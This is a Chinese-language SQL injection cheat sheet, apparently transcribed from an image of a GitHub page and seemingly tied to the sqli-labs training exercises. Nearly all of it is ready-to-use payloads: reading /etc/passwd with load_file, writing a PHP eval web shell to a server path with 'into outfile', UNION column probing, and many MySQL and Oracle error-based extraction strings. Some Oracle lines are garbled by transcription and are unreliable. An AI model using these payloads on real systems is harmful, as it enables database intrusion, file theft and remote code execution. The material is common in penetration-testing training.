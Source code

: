 - 读文件

  - union select 1,(SELECT load_file('/etc/passwd'))--+

- 写文件

  - union select 1,'<?php @eval($_POST[360]);?>' into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\Less-8\\3.php'--+

#### UNION注入

- 猜字段长度
  - order by 数字     uname=1' order by 2
- 暴字段位置
  - union select 1,2      uname=1' union select 1,2
- 在指定表中查询制指定用户的密码
  - union SELECT 1,password from 表 where username='用户名'--+

#### 报错注入

- floor   （SELECT user()可修改）

  - OR (SELECT 8627 FROM(SELECT COUNT(*),CONCAT(0x70307e,(SELECT user()),0x7e7030,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)--+

- ### ExtractValue(有长度限制,最长32位)   （select @@version可修改）

  - and extractvalue(1, concat(0x7e, (select @@version),0x7e))--+

- ### UpdateXml(有长度限制,最长32位)  （SELECT @@version可修改）

  - and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)--+

- ### NAME_CONST(适用于低版本，不太好用)

  - and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--+

- ### Error based Double Query Injection

  - or 1 group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1--+

- ### exp(5.5.5以上) （select user()可修改）

  - and (select exp(~(select * from(select user())x)))--+

- floor(Mysql):  and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

- Extractvalue(Mysql):  and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

- Updatexml(Mysql):  and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

- EXP: and exp(~(select * from(select user())a));

- UTL INADDR. get host address(Oracle): and 1=utl inaddrget host address(select bannerO from sys.v_$version where rownum=1))

- multipoint(Mysql)：and multipoint((select * from(select * from(select user())a)b));

- polygon(Mysql)：and polygon((select * from(select * from(select user())a)b));

- multipolygon(Mysql)：and multipolygon((select * from(select * from(select user())a)b));
